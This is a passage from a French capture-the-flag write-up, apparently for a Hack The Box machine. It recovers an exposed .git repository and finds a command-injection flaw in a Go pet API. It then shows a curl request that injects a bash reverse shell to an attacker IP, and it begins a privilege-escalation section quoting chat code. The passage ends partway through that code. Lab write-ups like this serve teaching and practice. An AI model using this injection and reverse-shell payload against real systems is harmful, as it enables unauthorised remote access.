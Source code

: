 ```
❯ wget -r http://pets.devzat.htb/.git
[...]
❯ git reset --hard
HEAD est maintenant à ef07a04 back again to localhost only
```

Nous pouvons maintenant analyser le code, dans le fichier main.go nous trouvons un élément interessant.

```
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

L'injection de commande saute aux yeux nous allons modifier la request web pour ajouter
un ; et une autre commande.

```
❯ curl 'http://pets.devzat.htb/api/pet' \
  --data-raw '{"name":"aze","species":"cat;/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.6/1234 0>&1\""}' \
  --compressed \
  --insecure
```

## **PRIVESC**

Nous avons maintenant access aux codes source des deux sites web ainsi
que du chat.
Dans le code du système de chat, nous voyons des messages de bienvenue si nous prenons le user admin, catherine ou patrick.

```
if strings.ToLower(u.name) == "patrick" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
    u.writeln("devbot", "admin has left the chat")
} else if strings.ToLower(u.name) == "admin" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
} else if strings.ToLower(u.name) == "catherine" {
    u.writeln("patrick", "Hey Catherine, glad you came.")
    u.writeln("catherine", "Hey bud, what are you up to?")
    u.writeln("patrick", "Remember the cool new feature we talked about the other day?")
    u.writeln("catherine", "Sure")
    u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
    u.writeln("catherine", "Kinda busy right now :necktie:")
    u.writeln("patrick", "That's perfectly fine :thumbs_up: You'll need a password I gave you last time.")
```